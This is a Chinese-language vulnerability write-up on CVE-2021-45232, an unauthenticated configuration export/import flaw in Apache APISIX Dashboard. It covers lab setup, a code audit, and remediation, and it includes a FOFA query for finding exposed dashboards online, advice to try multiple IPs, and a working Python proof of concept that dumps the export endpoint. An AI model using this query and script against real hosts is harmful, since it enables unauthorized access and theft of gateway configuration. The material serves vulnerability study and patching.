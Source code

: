 
# 0X00 漏洞信息
Apache APISIX是一个实时、动态、高性能的API网关。Apache APISIX Dashboard旨在让用户尽可能容易地通过前端界面来操作Apache APISIX。<br />		2021年12月29日，监测到一则Apache官方发布的CVE-2021-45232 Apache APISIX Dashboard未授权访问漏洞的信息在2.10.1之前的Apache APISIX Dashboard中，Manager API使用了两个框架，在框架gin的基础上引入了框架droplet。所有API和认证中间件都是基于框架 droplet开发的，但有些API直接使用了框架gin的接口，从而绕过身份验证，导致未授权访问。


# 0X01 漏洞概述
| 漏洞名称 | Apache APISIX Dashboard 身份验证绕过漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2021-45232 |
| CNVD编号 |  |
| CNNVD编号 |  |
| 其他编号 |  |
| 披露时间 | 2021.12.18 |
| 分数 | 9.8 |
| CVSS | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2021-45232](https://nvd.nist.gov/vuln/detail/CVE-2021-45232) |


# 0X02 影响范围
Apache APISIX Dashboard < 2.10.1


# 0X03 环境搭建
通过git拉取在docker搭建环境
```javascript
git clone https://github.com/apache/apisix-docker
cd ./apisix-docker/example
```
![image.png](_img/assets/1660197764782-8c283ab1-e71a-4739-9694-cf62063ecd3c.png)

注意这里需要把apisix-dashboard版本修改为2.7
![image.png](_img/assets/1660271651217-9d1b7295-e5a4-4fbc-8d1f-1616f684eba0.png)

下载并启动环境
```javascript
docker-compose up -d
```

浏览器访问，默认账户密码：admin/admin




# 0X04 代码审计
以2.9.0版本为例
```
https://github.com/apache/apisix-dashboard/tree/release/2.9.0
```

		apisix-dashboard-release-2.9.0\apisix-dashboard-release-2.9.0\api\internal\filter路径下authentication.go文件中定义了用户通过URL访问以/apisix开头的接口时，使用HTTP Header中的Authorization进行权限认证。还定义了两个例外/apisix/admin/tool/version和/apisix/admin/user/login不需要进行权限认证认证。<br />![image-20220107094313191.png](_img/assets/1659516130649-68424dc3-2140-40cb-8876-22ebf6ff5317.png)

在apisix-dashboard-release-2.9.0/api/internal/route.go中注册了一些handler，在正常情况下利用droplet对URL进行鉴权处理，与authentication.go中的handle对应。<br />![image-20220107094347429.png](_img/assets/1659516144374-d3e37773-2294-49e8-b7be-9ab7c912fbf6.png)

	在apisix-dashboard-release-2.9.0/api/internal/handler/migrate/migrate.go中发现有两个接口/apisix/admin/migrate/export和/apisix/admin/migrate/import没有经过droplet进行处理，存在认证绕过。<br />![image-20220107094406064.png](_img/assets/1659516159402-b00661f3-1653-493a-925d-972249f1002b.png)




# 0X05 漏洞复现
fofa语句<br />title="Apache APISIX Dashboard"<br />![image-20220107094525838.png](_img/assets/1659516193584-5601e99b-ef24-4a50-927b-332ef9d9d51b.png)

使用ip+端口+/apisix/admin/migrate/export 的形式，不一定每个Ip都有这个漏洞，多尝试几个。

![image-20220107094641967.png](_img/assets/1659516210511-95dfaa0c-73da-4df9-9328-75dd2a13d576.png)



# 0X05 POC
```javascript
import urllib.request
import ssl

url=input("输入测试地址\n>>>") + "/apisix/admin/migrate/export"
context = ssl._create_unverified_context()
header = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
            "X-Forwarded-For": "127.0.0.1"
        }
try:
    request = urllib.request.Request(url=url, headers=header)
    response = urllib.request.urlopen(request, context=context, timeout=10)
    html = str(response.read())
    if "Routes" in html or "hosts" in html and response.status == 200:
        print(html)
        print("[" + url + "]" + "[===存在Apache APISIX Dashboard身份认证绕过漏洞===]")
    else:
        print("[" + url + "]" + "[不存在Apache APISIX Dashboard身份认证绕过漏洞]")
except Exception as e:
    print("[" + url + "]" + "[不存在漏洞]", format(e))
```


# 0X06 解决方案
目前此漏洞已经修复，建议受影响用户尽快升级更新至Apache APISIX Dashboard 2.10.1版本。<br />下载链接：[https://github.com/apache/apisix-dashboard/releases](https://github.com/apache/apisix-dashboard/releases)
缓解措施：更改默认用户名和密码，限制源IP访问 Apache APISIX Dashboard。
